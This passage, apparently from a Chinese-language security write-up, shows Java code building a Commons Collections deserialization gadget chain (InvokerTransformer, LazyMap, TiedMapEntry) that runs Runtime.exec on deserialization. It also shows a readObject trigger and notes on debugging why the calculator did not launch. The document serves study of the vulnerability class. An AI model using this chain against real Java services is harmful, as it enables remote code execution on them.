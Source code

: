 ```java
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建恶意的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"keyTest");
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

但运行后却没有弹出计算器，开始找找原因，我们在`LazyMap#get()`方法处打断点，结果发现一共调用了两次`LazyMap#get()`

第一次时进入了 if 方法
![image-20221008152547485](images/image-20221008152547485.png)
